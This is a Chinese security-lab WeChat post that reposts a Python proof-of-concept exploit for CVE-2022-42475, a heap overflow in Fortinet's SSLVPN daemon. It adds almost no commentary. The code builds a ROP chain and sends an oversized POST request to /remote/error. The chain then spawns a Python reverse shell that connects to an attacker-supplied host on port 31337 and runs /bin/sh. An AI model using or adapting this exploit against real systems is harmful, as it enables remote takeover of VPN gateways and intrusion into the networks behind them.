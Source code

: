 #  Cve-2022-42475 飞塔

[ Khan安全攻防实验室 ](javascript:void\(0\);)

**Khan安全攻防实验室** ![]()

微信号 KhanCJSH

功能介绍 安全不是一个人，我们来自五湖四海。研究方向Web内网渗透，免杀技术，红蓝攻防对抗，CTF。

____

___发表于_

收录于合集

https://github.com/scrt/cve-2022-42475

利用 Fortinet 的 SSLVPN 守护进程中的堆溢出的 POC 代码

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230321090156.png)

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    import socketimport sslfrom pwn import *import timeimport sysimport requests  
    context = ssl.SSLContext()target_host = sys.argv[1]target_port = sys.argv[2]reverse = sys.argv[3]params = sys.argv[4].split(" ")strparams = "["for param in params:    strparams += "'"+param+"',"strparams = strparams[:-1]strparams += "]"  
      
    #binary functionsexecve = p64(0x0042e050)  
    #binary gadgetsmovrdirax = p64(0x00000000019d2196)# : mov rdi, rax ; call r13poprsi = p64(0x000000000042f0f8)# : pop rsi ; ret)poprdx = p64(0x000000000042f4a5)# : pop rdx ; ret)jmprax = p64(0x0000000000433181)#: jmp rax)pops = p64(0x000000000165cfd7)# : pop rdx ; pop rbx ; pop r12 ; pop r13 ; pop rbp ; ret)poprax = p64(0x00000000004359af)# : pop rax ; ret)gadget1 = p64(0x0000000001697e0d); #0x0000000001697e0d : push rbx ; sbb byte ptr [rbx + 0x41], bl ; pop rsp ; pop rbp ; retpoprdi = p64(0x000000000042ed7e)# : pop rdi ; retrax3 = gadget1  
      
      
    #hardcoded value which would probably need to be bruteforced or leakedhardcoded = 0x00007fc5f128e000  
    scbase = p64(hardcoded)rdi = p64(hardcoded + 0xc48)cmd = p64(hardcoded + 0xd38)asdf = hardcoded + 0xd38cmd1 = p64(asdf)cmd2 = p64(asdf+16)arg1 = p64(asdf+48)arg2 = p64(asdf+56)arg3 = p64(asdf+64)  
    ropchain = popraxropchain += execveropchain += poprdiropchain += cmd1ropchain += poprsiropchain += cmd2ropchain += poprdxropchain += p64(0)ropchain += jmpraxropchain += b"/bin/python\x00\x00\x00\x00\x00"ropchain += arg1ropchain += arg2ropchain += arg3ropchain += p64(0)ropchain += b"python\x00\x00"ropchain += b"-c\x00\x00\x00\x00\x00\x00"ropchain += b"""import socket,sys,os\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(('"""+ reverse.encode() + b"""',31337))\n[os.dup2(s.fileno(),x) for x in range(3)]\ni=os.fork()\nif i==0:\n os.execve('/bin/sh', """+strparams.encode()+b""",{})\n\x00\x00"""  
      
      
    try:    with socket.create_connection((target_host, int(target_port,10))) as sock:        with context.wrap_socket(sock, server_hostname=target_host) as ssock:            ssock.settimeout(2)            context.verify_mode = ssl.CERT_NONE            payload = b"A"*173096+rdi+poprdi+cmd+pops+b"A"*40+pops+rax3+b"C"*32+ropchain            tosend = b"POST /remote/error HTTP/1.1\r\nHost: "+target_host +b"\r\nContent-Length: 115964117980\r\n\r\n" + payload            ssock.sendall(tosend)            r = ssock.recv(10024)except Exception as e:    print("Exception occurred :"+ repr(e))

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

